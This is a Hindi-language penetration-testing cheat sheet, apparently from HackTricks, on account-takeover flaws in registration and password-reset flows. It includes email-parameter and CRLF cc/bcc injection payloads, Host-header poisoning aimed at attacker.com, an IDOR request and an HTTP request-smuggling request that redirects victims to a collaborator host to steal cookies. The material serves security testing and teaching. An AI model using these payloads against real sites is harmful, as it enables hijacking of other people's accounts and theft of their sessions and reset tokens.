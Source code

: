 # पंजीकरण और अधिग्रहण कमजोरियाँ

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) चेक करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर **हमें फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}


## पंजीकरण अधिग्रहण

### डुप्लिकेट पंजीकरण

* एक मौजूदा उपयोगकर्ता नाम का उपयोग करके जनरेट करने का प्रयास करें
* ईमेल को बदलने की जांच करें:
* अपरकेस
* \+1@
* ईमेल में कुछ डॉट जोड़ें
* ईमेल नाम में विशेष वर्ण (%00, %09, %20)
* ईमेल के बाद काले वर्ण डालें: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### उपयोगकर्ता नाम गणना

जांचें कि क्या आप पता लगा सकते हैं कि कब एक उपयोगकर्ता नाम पहले से ही एप्लिकेशन के अंदर पंजीकृत है।

### पासवर्ड नीति

एक उपयोगकर्ता बनाने पर पासवर्ड नीति की जांच करें (जांचें कि क्या आप कमजोर पासवर्ड का उपयोग कर सकते हैं)।\
इस मामले में आप क्रेडेंशियल्स को ब्रूटफोर्स करने का प्रयास कर सकते हैं।

### SQL इंजेक्शन

[**इस पृष्ठ की जांच करें** ](sql-injection/#insert-statement)यह सीखने के लिए कि कैसे खाता अधिग्रहण का प्रयास करें या पंजीकरण फॉर्म के माध्यम से **SQL इंजेक्शन** के माध्यम से जानकारी निकालें।

### ओथ अधिग्रहण

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML कमजोरियाँ

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### ईमेल बदलें

जब पंजीकृत हों तो ईमेल बदलने का प्रयास करें और जांचें कि क्या यह परिवर्तन सही ढंग से मान्य है या इसे मनमाने ईमेल में बदल सकते हैं।

### अधिक जांचें

* जांचें कि क्या आप **निष्क्रिय ईमेल** का उपयोग कर सकते हैं
* **लंबा** **पासवर्ड** (>200) **DoS** की ओर ले जाता है
* **खाता निर्माण पर दर सीमाओं की जांच करें**
* username@**burp\_collab**.net का उपयोग करें और **कॉलबैक** का विश्लेषण करें

## **पासवर्ड रीसेट अधिग्रहण**

### रेफरर के माध्यम से पासवर्ड रीसेट टोकन लीक <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. अपने ईमेल पते पर पासवर्ड रीसेट का अनुरोध करें
2. पासवर्ड रीसेट लिंक पर क्लिक करें
3. पासवर्ड न बदलें
4. किसी 3rd पार्टी वेबसाइटों पर क्लिक करें (जैसे: फेसबुक, ट्विटर)
5. Burp Suite प्रॉक्सी में अनुरोध को इंटरसेप्ट करें
6. जांचें कि क्या रेफरर हेडर पासवर्ड रीसेट टोकन लीक कर रहा है।

### पासवर्ड रीसेट पॉइज़निंग <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Burp Suite में पासवर्ड रीसेट अनुरोध को इंटरसेप्ट करें
2. Burp Suite में निम्नलिखित हेडर जोड़ें या संपादित करें: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. संशोधित हेडर के साथ अनुरोध को फॉरवर्ड करें\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. _host header_ के आधार पर पासवर्ड रीसेट URL की तलाश करें जैसे: `https://attacker.com/reset-password.php?token=TOKEN`

### ईमेल पैरामीटर के माध्यम से पासवर्ड रीसेट <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR on API Parameters <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. हमलावर को अपने खाते में लॉगिन करना होगा और **पासवर्ड बदलें** फीचर पर जाना होगा।
2. Burp Suite शुरू करें और अनुरोध को इंटरसेप्ट करें।
3. इसे रिपीटर टैब में भेजें और पैरामीटर संपादित करें: उपयोगकर्ता ID/ईमेल\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Weak Password Reset Token <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

पासवर्ड रीसेट टोकन को हर बार यादृच्छिक रूप से उत्पन्न और अद्वितीय होना चाहिए।\
यह निर्धारित करने की कोशिश करें कि क्या टोकन समाप्त होता है या यह हमेशा समान होता है, कुछ मामलों में उत्पन्न करने का एल्गोरिदम कमजोर होता है और इसे अनुमानित किया जा सकता है। निम्नलिखित चर एल्गोरिदम द्वारा उपयोग किए जा सकते हैं।

* टाइमस्टैम्प
* उपयोगकर्ता ID
* उपयोगकर्ता का ईमेल
* पहला नाम और अंतिम नाम
* जन्म तिथि
* क्रिप्टोग्राफी
* केवल संख्या
* छोटा टोकन अनुक्रम (अक्षर \[A-Z,a-z,0-9] के बीच)
* टोकन पुन: उपयोग
* टोकन समाप्ति तिथि

### Leaking Password Reset Token <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. एक विशिष्ट ईमेल के लिए API/UI का उपयोग करके पासवर्ड रीसेट अनुरोध ट्रिगर करें, जैसे: test@mail.com
2. सर्वर प्रतिक्रिया का निरीक्षण करें और `resetToken` की जांच करें।
3. फिर टोकन का उपयोग एक URL में करें जैसे `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Password Reset Via Username Collision <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. सिस्टम पर एक उपयोगकर्ता नाम के साथ पंजीकरण करें जो पीड़ित के उपयोगकर्ता नाम के समान हो, लेकिन उपयोगकर्ता नाम के पहले और/या बाद में खाली स्थान डालें। जैसे: `"admin "`
2. अपने दुर्भावनापूर्ण उपयोगकर्ता नाम के साथ पासवर्ड रीसेट का अनुरोध करें।
3. अपने ईमेल पर भेजे गए टोकन का उपयोग करें और पीड़ित का पासवर्ड रीसेट करें।
4. नए पासवर्ड के साथ पीड़ित खाते में लॉगिन करें।

प्लेटफ़ॉर्म CTFd इस हमले के प्रति संवेदनशील था।\
देखें: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Account Takeover Via Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. एप्लिकेशन के अंदर या उपडोमेन में XSS खोजें यदि कुकीज़ को पैरेंट डोमेन पर स्कोप किया गया है: `*.domain.com`
2. वर्तमान **सत्र कुकी** लीक करें।
3. कुकी का उपयोग करके उपयोगकर्ता के रूप में प्रमाणीकरण करें।

### Account Takeover Via HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. **smuggler** का उपयोग करें ताकि HTTP अनुरोध स्मगलिंग (CL, TE, CL.TE) के प्रकार का पता लगाया जा सके।\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. एक अनुरोध तैयार करें जो `POST / HTTP/1.1` को निम्नलिखित डेटा के साथ ओवरराइट करेगा:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` जिसका लक्ष्य पीड़ितों को burpcollab पर ओपन रीडायरेक्ट करना और उनकी कुकीज़ चुराना है।\
3\. अंतिम अनुरोध निम्नलिखित के समान हो सकता है
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone रिपोर्ट इस बग का फायदा उठाते हुए\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### CSRF के माध्यम से खाता अधिग्रहण <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. CSRF के लिए एक पेलोड बनाएं, जैसे: “पासवर्ड परिवर्तन के लिए ऑटो सबमिट वाला HTML फॉर्म”
2. पेलोड भेजें

### JWT के माध्यम से खाता अधिग्रहण <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON वेब टोकन का उपयोग एक उपयोगकर्ता को प्रमाणित करने के लिए किया जा सकता है।

* दूसरे उपयोगकर्ता आईडी / ईमेल के साथ JWT संपादित करें
* कमजोर JWT हस्ताक्षर की जांच करें

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## संदर्भ

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
